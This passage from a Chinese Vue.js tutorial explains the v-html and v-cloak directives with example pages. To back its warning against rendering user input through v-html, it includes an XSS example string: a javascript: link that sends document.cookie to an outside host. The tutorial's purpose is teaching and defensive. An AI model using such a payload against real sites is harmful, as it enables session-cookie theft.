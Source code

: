 (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上!

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-html指令</title>
        <!-- 引入Vue -->
        <script type="text/javascript" src="../js/vue.js"></script>
    </head>
    <body>
        <!-- 准备一个容器 -->
        <div id="root">
            <div>hello,{{name}}</div>
            <div v-html="str"></div>
            <div v-html="str2"></div>
        </div>
        <script type="text/javascript">
            Vue.config.productionTip = false
        //创建Vue实例
        const x = new Vue({
            el:'#root',
            data:{
                name:'sky',
                str:'<h2>你好啊</h2>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.coockie>点击事件'
            }
        })
        </script>
    </body>
</html>
```



#### 3.v-cloak指令（没有值）:

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-cloak指令</title>
    </head>
    <body>
        <!-- 准备一个容器 -->
        <div id="root">
            <h1 v-cloak>hello,{{name}}</h1> 
        </div>
        <!-- 引入Vue -->
        <script type="text/javascript" src="../js/vue.js"></script>//假如慢5s
        <script type="text/javascript">
            Vue.config.productionTip = false
        //创建Vue实例
        const x = new Vue({
            el:'#root',
            data:{
                name:'sky'
            }
        })
        </script>
```